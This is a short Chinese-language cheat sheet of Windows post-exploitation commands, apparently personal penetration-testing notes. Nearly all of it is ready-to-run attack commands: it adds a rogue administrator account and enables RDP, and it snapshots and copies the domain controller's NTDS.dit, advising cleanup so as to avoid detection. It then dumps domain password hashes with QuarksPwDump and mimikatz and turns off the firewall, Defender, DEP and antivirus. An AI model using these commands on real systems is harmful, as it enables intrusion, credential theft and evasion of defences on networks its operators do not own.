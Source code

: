 

### 添加用户

```
net user ccreater Abc1234 /add
net localgroup administrators ccreater /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

```



### 域控提取域用户hash

#### Ntdsutil

 ntdsutil.exe是域控制器自带的域数据库管理工具，从windows 2008就默认自带了 

```
Ntdsutil 
	snapshot—activate instance ntds
	create
	mount {guid}
copy 装载点\windows\NTDS\ntds.dit d:\ntds_save.dit
```

![image](http://www.xmrseo.com/content/uploadfile/201805/dad51527169954.jpg)

![image](http://www.xmrseo.com/content/uploadfile/201805/dad51527170055.jpg)

 最后执行 

```
unmount {guid}
delete {guid}
quit
```

 删除装载点即可，避免被发现 

接着上传工具QuarksPwDump到域控制器上，然后执行如下命令，成功提取用户hash

`QuarksPwDump --dump-hash-domain --ntds-file d:\ntds_save.dit`

####  mimikatz

`mimikatz log "privilege::debug" "lsadump::lsa /patch"`



### 关闭防火墙

```
netsh advfirewall set allprofiles state off#关闭防火墙
net stop windefend
netsh firewall set opmode mode=disable
bcdedit.exe /set{current} nx AlwaysOff#关闭DEP
meterpreter > run killav  关闭杀毒软件 
```
